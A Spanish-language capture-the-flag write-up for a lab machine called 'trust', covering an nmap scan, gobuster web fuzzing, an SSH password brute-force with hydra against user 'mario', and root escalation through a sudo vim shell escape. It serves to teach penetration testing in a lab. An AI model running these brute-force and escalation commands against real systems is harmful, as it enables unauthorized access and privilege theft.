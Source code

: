 # trust

* Máquina **atacante** -> 172.18.0.1
* Máquina **objetivo** -> 172.18.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.18.0.2
```
![escaneo](/Capturas/2024-10-24_21-28.png)

Vemos abiertos los puertos **22** y **80**.

### Fuzzing web

Ya que al entrar a la página web solamente observamos una plantilla por defecto de apache, procedemos a hacer **fuzzing web** con *gobuster*:
```shell
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.py,.php,.sh
```
![fuzzing](/Capturas/2024-10-24_21-39.png)

Encontramos un archivo llamado **secret.php** en el cual, si accedemos a él por la url, nos muestra la siguiente imagen:

![secret](/Capturas/2024-10-24_21-41.png)

Suponemos que **Mario** puede ser un potencial usuario de la máquina **objetivo**.

### Fuerza bruta

Probamos a hacer un ataque de **fuerza bruta** con *hydra*:
```shell
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```
![fuerza bruta](/Capturas/2024-10-24_21-46.png)

Obtenemos las credenciales y entramos vía **ssh** a la máquina **objetivo**:

![acceso](/Capturas/2024-10-24_21-47.png)

### Escalada de privilegios

Una vez dentro, ejecutamos el comando `sudo -l` y vemos que podemos ejecutar *vim* como **root**, por lo que usamos el comando `sudo /usr/bin/vim -c ':!/bin/sh'` para escalar privilegios:

![escalada](/Capturas/2024-10-24_21-51.png)

Y somos **root** :triangular_flag_on_post: